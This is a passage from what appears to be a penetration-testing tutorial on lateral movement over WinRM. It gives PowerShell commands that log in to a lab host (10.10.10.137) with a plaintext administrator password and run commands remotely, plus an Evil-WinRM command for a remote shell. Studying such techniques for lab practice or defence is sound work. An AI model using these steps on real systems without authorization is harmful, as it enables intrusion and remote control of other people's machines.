 ### PowerShell

The remote transmission protocol of PowerShell is based on the WinRM specification and provides powerful remote management functions. The PowerShell Cmdlet of `Enter-PSSession` can initiate a session with a remote host.

```powershell
# Specify the remote system username
$User = "win-98f4vaj03t5\administrator"
# Specify the user's password
$Password = ConvertTo-SecureString -String "H3rmesk1t@2023" -AsPlainText -Force
# Integrate username and password to import Credential
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password
# Create a session based on the provided credentials
New-PSSession -Name WinRM1 -ComputerName 10.10.10.137 -Credential $Cred -Port 5985

# View the currently created PSSession session
Get-PSSession

# Select a session to enter session interaction mode
Enter-PSSession -Name WinRM1
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%206.png)

```powershell
# Specify the remote system username
$User = "win-98f4vaj03t5\administrator"
# Specify the user's password
$Password = ConvertTo-SecureString -String "H3rmesk1t@2023" -AsPlainText -Force
# Integrate username and password to import Credential
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password
# Create a session based on the provided credentials
$Sess = New-PSSession -Name WinRM2 -ComputerName 10.10.10.137 -Credential $Cred -Port 5985
# Execute commands in the created session
Invoke-Command -Session $Sess -ScriptBlock {dir C:\}
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5
%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%207.png)

### Evil-Winrm

`Evil-Winrm` is a penetration framework based on the `WinRM Shell` that can complete simple attack tasks on the target host that has started the `WinRm` service through the provided username password or user hash value. For specific use, please refer to the reference project [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm).

```powershell
evil-winrm -i 10.10.10.137 -u Administrator -p H3rmesk1t@2023
```
